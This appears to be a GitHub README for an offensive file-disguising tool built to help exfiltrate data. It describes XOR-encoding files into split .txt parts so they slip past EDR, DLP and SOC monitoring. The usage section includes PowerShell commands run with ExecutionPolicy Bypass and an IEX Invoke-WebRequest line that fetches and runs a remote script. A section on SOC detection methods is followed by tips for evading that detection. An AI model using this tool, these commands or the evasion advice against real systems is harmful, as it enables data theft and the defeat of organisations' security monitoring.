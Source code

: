 # Data Exfiltration

## Overview
Data Exfiltration is a **Python and PowerShell** tool that allows you to **convert any file** (e.g., `.exe`, `.pdf`, `.jpg`, `.xlsx`) into disguised `.txt` files. The encoded files can be safely stored and later restored to their original format. This helps in **evading detection** from EDR, DLP, and SOC teams.

## Features
✅ Splits files into multiple parts (`file_part1.txt`, `file_part2.txt`, etc.)

✅ Uses **XOR encryption** with a random key for stealth encoding

✅ **No Base64** (avoiding security tool detection)

✅ Restores files exactly as they were (including executables)

✅ **No file deletion** (Original files remain intact)

✅ Works on **Windows/Linux/macOS**

---

## 🔥 Python Version Usage

### **1️⃣ Install Requirements**
Python 3 is required, but no external dependencies.

### **2️⃣ Convert Files to `.txt`**
```sh
python file_converter.py /path/to/folder
```
- Example: 
  ```sh
  python file_converter.py harsh_imp
  ```
- This will convert all files in `harsh_imp/` into `.txt` parts.

### **3️⃣ Restore Original Files**
```sh
python file_converter.py /path/to/folder --decode
```
- Example:
  ```sh
  python file_converter.py harsh_imp --decode
  ```
- This will merge `.txt` parts and restore the original files.

---

## 💻 PowerShell Version Usage

### **1️⃣ Convert Files to `.txt`**
```powershell
powershell -ExecutionPolicy Bypass -File FileConverter.ps1 -folder "C:\Users\Harsh\harsh_imp"
```

### **2️⃣ Restore Files from `.txt` Parts**
```powershell
powershell -ExecutionPolicy Bypass -File FileConverter.ps1 -folder "C:\Users\Harsh\harsh_imp" -decode
```

### **Alternative (Without Saving Script Locally)**
```powershell
IEX (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/user/FileConverter.ps1" -UseBasicParsing).Content
Encode-Files -folder "C:\Users\Harsh\harsh_imp"
```

---

## 🚨 Detection Methods by SOC Teams
Although this tool tries to avoid detection, SOC teams can still identify exfiltration attempts through:

1. **Unusual Text File Activity** 📂
   - Large `.txt` files appearing suddenly with high entropy.
   - `.txt` files created with unexpected file sizes (matching original files).

2. **Suspicious File Splitting** 🛑
   - Files broken into parts (`_part1.txt`, `_part2.txt`) detected in **endpoint logs**.
   - Frequent read/write operations on `.txt` files in a short time span.

3. **Behavioral Analysis** 🔍
   - Use of **XOR encoding** flagged by advanced EDR/AV solutions.
   - Abnormal PowerShell execution, especially `Invoke-WebRequest` usage.
   - Processes interacting with `.txt` files in directories not normally used for text-based storage.

4. **Network Traffic Anomalies** 🌐
   - **Outbound `.txt` uploads** with encrypted content to unknown domains.
   - Detection of encoded **XOR patterns in traffic** (if not using HTTPS or encrypted channels).

5. **SIEM & Endpoint Alerts** ⚠️
   - Unusual PowerShell execution (Event ID 4104 - Script Block Logging).
   - File access anomalies via Sysmon (Event ID 11 - File Creation).

### 🛡️ **How to Mitigate Detection**
✔️ Rename `.txt` files to blend in (e.g., `README_part1.txt`).
✔️ Use **steganography** instead of plain XOR.
✔️ Encrypt `.txt` parts using **AES** rather than simple XOR.
✔️ Exfiltrate using trusted processes (e.g., embedding in known applications).

---

## ⚠️ Disclaimer
This tool is for **educational and red team research** purposes only. The author is not responsible for any misuse.

🚀 **Happy Hacking!**

